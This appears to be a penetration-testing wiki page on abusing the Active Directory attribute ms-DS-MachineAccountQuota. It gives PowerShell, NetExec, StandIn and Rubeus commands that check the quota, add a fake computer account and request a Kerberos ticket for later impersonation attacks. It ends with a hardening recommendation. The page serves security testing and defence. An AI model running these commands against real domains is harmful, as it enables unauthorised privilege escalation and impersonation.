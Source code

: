# Machine Account Quota Abuse
---

## Vulnerability

By default, any domain user can add up to 10 computers into the domain they belong to. This feature is controlled by the attribute `ms-DS-MachineAccountQuota`. You can leverage this feature to add your own fake computer, one which you are local administrator. It could help you for impersonation attacks like [S4U2Self Abuse](/ad/s4u2self) or Kerberos Relay attacks.

## Prerequisites

* Attribute `ms-DS-MachineAccountQuota` must be `> 0` for a domain principal you control.

## Exploit

The attribute `ms-DS-MachineAccountQuota` is generally set at the root level of the domain. To check its value, use one of the following commands.

```powershell
# Replace with the appropriate Dinstinguished Name.
Get-DomainObject -Identity "DC=$sub,DC=$company,DC=$com" -Properties ms-DS-MachineAccountQuota

# Using NetExec.
nxc ldap -d $Domain -u $Username -p $Password -M maq
```

If you can a new computer account to the domain, use [StandIn](https://github.com/FuzzySecurity/StandIn) to do it.

```powershell
# Generate the fake computer and add it to the domain.
./StandIn.exe --computer $ComputerName --make

# Compute hashes of the newly created computer.
./Rubeus.exe hash /password:$NewComputerPassword /user:$ComputerName$ /domain:$domain

# Ask a TGT for it.
./Rubeus.exe asktgt /user:$ComputerName$ /aes256:$hash /nowrap
```

## Useful links

- If you observe a strange behavior with [StandIn](https://github.com/FuzzySecurity/StandIn), take a look at [GetDomain vs GetComputerDomain vs GetCurrentDomain](https://rastamouse.me/getdomain-vs-getcomputerdomain-vs-getcurrentdomain/) from Rasta Mouse.

## Recommendations

- [ ] Set `ms-DS-MachineAccountQuota` to `0` for all domain users if possible, or at least for unprivileged users.